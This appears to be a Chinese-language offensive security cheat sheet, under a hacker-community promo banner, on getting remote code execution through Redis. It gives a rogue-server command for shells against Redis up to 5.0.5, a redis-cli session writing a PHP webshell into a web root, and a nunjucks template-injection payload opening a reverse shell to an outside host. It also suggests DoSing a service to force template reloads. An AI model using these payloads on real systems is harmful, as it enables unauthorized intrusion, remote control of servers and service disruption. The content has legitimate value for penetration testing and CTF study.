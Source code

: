 **实时黑客新闻**\
通过实时新闻和见解，跟上快速变化的黑客世界

**最新公告**\
了解最新的漏洞赏金计划和重要平台更新

**加入我们** [**Discord**](https://discord.com/invite/N3FrSbmwdy)，今天就开始与顶级黑客合作！

## Redis RCE

### 交互式 Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) 可以在 Redis(<=5.0.5) 中自动获取交互式 shell 或反向 shell。
```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```
### PHP Webshell

来自[**这里**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)的信息。你必须知道**网站文件夹**的**路径**：
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
如果 webshell 访问异常，您可以在备份后清空数据库并重试，记得恢复数据库。

### 模板 Webshell

与前一部分一样，您也可以覆盖一些将被模板引擎解释的 html 模板文件，从而获得一个 shell。

例如，遵循 [**这篇文章**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/)，您可以看到攻击者在一个由 **nunjucks 模板引擎** 解释的 **html** 中注入了一个 **rev shell：**
```javascript
{{ ({}).constructor.constructor(
"var net = global.process.mainModule.require('net'),
cp = global.process.mainModule.require('child_process'),
sh = cp.spawn('sh', []);
var client = new net.Socket();
client.connect(1234, 'my-server.com', function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});"
)()}}
```
{% hint style="warning" %}
注意 **多个模板引擎会在** **内存** 中缓存模板，因此即使您覆盖它们，新的模板也 **不会被执行**。在这种情况下，开发者要么保持了自动重载的状态，要么您需要对服务进行 DoS（并期望它会自动重新启动）。
{% endhint %}
